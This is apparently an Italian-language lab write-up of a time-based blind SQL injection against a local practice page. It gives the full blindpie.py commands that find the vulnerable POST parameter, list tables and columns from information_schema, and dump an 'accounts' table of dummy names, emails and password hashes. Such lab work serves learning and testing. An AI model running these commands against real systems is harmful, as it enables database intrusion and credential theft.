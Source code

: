 # Time-Based Blind Escaped

1. Esamino i parametri della richiesta POST:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
    ```

    Lo script rileva che `email` sia vulnerabile.

2. Ottengo le prime righe di `information_schema.tables`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post -M0 -T10 attack --table information_schema.tables --column table_name --param to --row 0 --rows 120
    ```

    Tra le righe compare la tabella `accounts`.

3. Ottengo le prime righe di `information_schema.columns`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post -M0 -T5 attack --table information_schema.columns --column "concat(table_name, char(32), column_name)" --param to --row 0 --rows 50
    ```

    Nota: char(32) corrisponde al carattere 'spazio'.

    Ogni riga ritornata dallo script è una coppia `(table_name, column_name)`. Cercando le righe in cui compare la tabella `accounts` si determinano i nomi delle sue colonne.

4.  Estraggo tutti i dati della `accounts`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post -M0 -T10 attack --table accounts --column "concat(id, char(32), first_name, char(32), last_name, char(32), email, char(32), password)" --param to --row 0 --rows 10
    ```

    Output:

    ```
    ...
    > RESULTS:
    1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
    2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
    3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
    4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
    ...
    ```

